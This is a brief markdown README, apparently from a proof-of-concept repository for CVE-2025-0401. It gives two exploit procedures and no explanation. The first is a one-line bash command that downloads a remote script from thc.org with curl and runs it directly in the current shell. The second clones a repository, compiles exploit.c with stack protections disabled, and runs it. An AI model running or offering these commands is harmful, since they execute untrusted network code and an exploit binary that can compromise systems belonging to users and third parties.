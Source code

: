 ## PoC 1

```bash
. <(curl -SsfL https://thc.org/7350pipe)
```

![image](https://github.com/user-attachments/assets/41129d6a-4afb-4299-8b8e-43c2cad96ae5)


## PoC 2

```
git clone https://github.com/CyberSecurityUP/CVE-2025-0401.git
cd CVE-2025-0401
gcc -z execstack -fno-stack-protector exploit.c -o exploit
chmod +x exploit
./exploit
```
